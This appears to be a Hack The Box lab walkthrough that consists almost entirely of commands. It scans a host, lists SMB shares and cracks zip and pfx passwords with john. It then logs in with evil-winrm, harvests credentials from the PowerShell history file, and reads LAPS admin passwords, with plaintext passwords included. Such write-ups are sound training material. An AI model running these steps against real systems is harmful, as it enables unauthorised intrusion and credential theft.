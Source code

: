 ```
nmap -sS -sC -sV -T5 -Pn 10.10.11.152
```
![image](https://github.com/regarmulia/HTB/assets/33616880/de39839c-7d0f-4e06-bce0-405c4fd5e9df)


```
smbclient -L \\\\10.10.11.152\\
smbclient \\\\10.10.11.152\\Shares
```
![image](https://github.com/regarmulia/HTB/assets/33616880/38dc3fff-aa4b-43ea-9708-623342572d32)


```
zip2john winrm_backup.zip > hash_zip
john hash_zip -w=/usr/share/wordlists/rockyou.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/2fd7c3da-dd7e-4873-a74d-5cb138de68ca)

![image](https://github.com/regarmulia/HTB/assets/33616880/25e93ff2-37af-438d-8e31-0bbac933bdfb)


```
pfx2john legacyy_dev_auth.pfx > hash_pfx
john hash_pfx -w=/usr/share/wordlists/rockyou.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/ade0c972-88c1-45ae-b2fe-482b7f8a930c)


```
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out prv.key
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out cert.crt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/07ffcc57-6bbb-4567-ad1e-38879504d66f)


```
evil-winrm -i 10.10.11.152 -S -c cert.crt -k prv.key -p -u
```
![image](https://github.com/regarmulia/HTB/assets/33616880/dbc9049b-bc5b-4ae5-bf13-61229ef18444)


```
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/f6ebf0ae-9a32-4cdb-9a80-fd852960949d)


```
evil-winrm -i 10.10.11.152 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S
net user svc_deploy
upload AdmPwd.PS
```
![image](https://github.com/regarmulia/HTB/assets/33616880/0eeb2fa9-09a1-4cc8-9c21-69219178b416)


```
Get-ADComputer DC01 -property 'ms-mcs-admpwd'
```
![image](https://github.com/regarmulia/HTB/assets/33616880/27e1d01a-442f-4a88-89f8-08d0b427425b)


```
evil-winrm -i 10.10.11.152 -S -u administrator -p 'A+@PQh;Cj0+{Cb2oBJBybYry'
```
![image](https://github.com/regarmulia/HTB/assets/33616880/1b1a7314-434a-40e8-bca7-a9477253776c)
